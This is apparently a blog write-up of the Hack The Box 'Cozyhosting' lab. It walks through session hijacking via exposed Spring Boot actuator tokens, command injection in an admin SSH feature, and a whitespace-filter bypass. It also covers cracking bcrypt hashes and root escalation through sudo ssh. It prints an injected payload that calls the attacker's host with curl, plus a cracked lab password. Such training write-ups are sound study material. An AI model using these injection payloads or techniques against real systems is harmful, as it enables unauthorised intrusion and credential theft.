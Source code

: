 ## Cozyhosting(HTB)

![Untitled](/assets/images/cozyhosting/0.png)

## NMAP

```json
# Nmap 7.94 scan initiated Mon Sep  4 01:16:04 2023 as: nmap -sC -sV -oA nmap/cozyhosting 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
5555/tcp open  freeciv?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  4 01:18:34 2023 -- 1 IP address (1 host up) scanned in 149.32 seconds
```

## RECON

We see that 3 ports are opened (22,80 and 5555). Let’s first visit port 80 (HTTP), the banner from NMAP tells us it is an `nginx` server running on `Ubuntu`. Going to [http://10.10.11.230](http://10.10.11.230) we see 

![Untitled](/assets/images/cozyhosting/1.png)

This website seems to be some sort of Hosting Provider. Hovering over all the buttons tells us that only `Login` actually leads somewhere. Either way let’s run a directory bruteforce to look for paths on this website.

### Directory Brute force

![Untitled](/assets/images/cozyhosting/2.png)

Looking at the results we see a few interesting endpoints. `/admin` leads to a 401 and `/error` leads to a 500. Let’s navigate to `/error` to checkout the error page and see if it will reveal the framework that is being used. 

![Untitled](/assets/images/cozyhosting/3.png)

`“Whitelabel Error Page”`  From doing Bug Bounty, I’ve actually seen this error page before and immediately identified that this is an error page for the Spring Boot JAVA framework. A quick google search will also show us that this is a Spring Boot error page.

![Untitled](/assets/images/cozyhosting/4.png)

Now that we know that it is running Spring Boot we can try and brute force the `/actuator` endpoints for Spring Boot.  TLDR of the `/actuator` endpoint is that it is a debugging endpoint for developers.

![Untitled](/assets/images/cozyhosting/5.png)

> Source: [https://www.baeldung.com/spring-boot-actuators](https://www.baeldung.com/spring-boot-actuators)
> 

![Untitled](/assets/images/cozyhosting/6.png)

We see that we get a bunch of hits from our directory brute force. Going to `/actuator/sessions` reveals the session tokens for all the users of the website.

![Untitled](/assets/images/cozyhosting/7.png)

With this information, we can perform a “Session Hijacking” Attack  and login as the user “kanderson”

![Untitled](/assets/images/cozyhosting/8.png)

We can change our cookie to the victim’s cookie. Now let’s try accessing the `/admin` endpoint again.

![Untitled](/assets/images/cozyhosting/9.png)

We see that we now have access to the Admin Dashboard.

## Foothold

Looking at the Admin Dashboard, we find a functionality that seems to be executing a shell command.

![Untitled](/assets/images/cozyhosting/10.png)

Let’s open up Burp and look at the request that is made when we use this functionality .

![Untitled](/assets/images/cozyhosting/11.png)

We can see that a POST request gets sent to the endpoint `/executessh` and it takes two parameters host and username. From here I pretty much was sure that a shell command was being executed in the backend. The command would probably look something like

![Untitled](/assets/images/cozyhosting/12.png)

Our user input is being inserted into a shell command. If we could escape out of the ssh command and sneak in our own command we will be able to achieve command injection. Let’s try changing our POST request data to

```bash
host=127.0.0.1&username=;curl 10.10.16.10:8000;
```

When this request gets sent. We should expect the backend shell command to be transformed to

![Untitled](/assets/images/cozyhosting/13.png)

Let’s set up a python http server on port 8000 to see if we sucessfully injected the curl command on the server.

![Untitled](/assets/images/cozyhosting/14.png)

However, when we send the request we see that whitespaces are not allowed! But we can bypass this in multiple ways. First, we could use ${IFS}.

![Untitled](/assets/images/cozyhosting/15.png)

Second way is using something called “brace expansion”. I actually learned about this technique from ippsec’s video on this box. Be sure to check out ippsec’s video on this box he covers the box much better than I do.

[https://www.youtube.com/watch?v=okTl6kWrncg](https://www.youtube.com/watch?v=okTl6kWrncg)

Brace Expansion

![Untitled](/assets/images/cozyhosting/16.png)

Brace Expansion will turn this command into 

```bash
ssh 127.0.0.1@;curl 10.10.16.10:8000;
```

> Official GNU documentation of Brace Expansion:[https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html)
> 

Now we can create a reverse shell on the box.

![Untitled](/assets/images/cozyhosting/17.png)

## USER

we see that we are the app user on the box. If we run `ls` we can see the jar file of the web app. Let’s move it onto our machine and extract it. After, extracting it we see two files.

![Untitled](/assets/images/cozyhosting/18.png)

Navigating to the BOOT-INF file which usually contains properties about the Spring Boot application. We see an [`application.properties`](http://application.properties) file which contains the postgres database password.

![Untitled](/assets/images/cozyhosting/19.png)

Let’s check if postgres is running on the box. We run `ss -ltop`

![Untitled](/assets/images/cozyhosting/20.png)

We see that postgresql is indeed running. Let’s try logging into postgres with the password.

![Untitled](/assets/images/cozyhosting/21.png)

We get logged into the postgres database and we can see 4 databases. We are interested in the cozyhosting database. So let’s have a look at the contents of the database.

![Untitled](/assets/images/cozyhosting/22.png)

We find the password hash of the admin and kanderson user. Let’s try to crack these password on our machine using hashcat. Judging from the `$2a$` we can guess that this is a bcrypt hash, so let’s try cracking this hash with mode 3200(bcrypt).

![Untitled](/assets/images/cozyhosting/23.png)

We get the password of the admin user `manchesterunited` . Let’s try logging into the josh user.

![Untitled](/assets/images/cozyhosting/24.png)

![Untitled](/assets/images/cozyhosting/25.png)

## Root

We get logged into the josh user. Now let’s run `sudo -l` to see if we have any easy win on privilege escalation.

![Untitled](/assets/images/cozyhosting/26.png)

We see that we can run `/usr/bin/ssh *` as the root user. Indicating that we can run any ssh  command we want as root. Let’s go to gtfobin to look for a payload

![Untitled](/assets/images/cozyhosting/27.png)

> Source: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)
> 

We run the command and we get a shell as root.

![Untitled](/assets/images/cozyhosting/28.png)
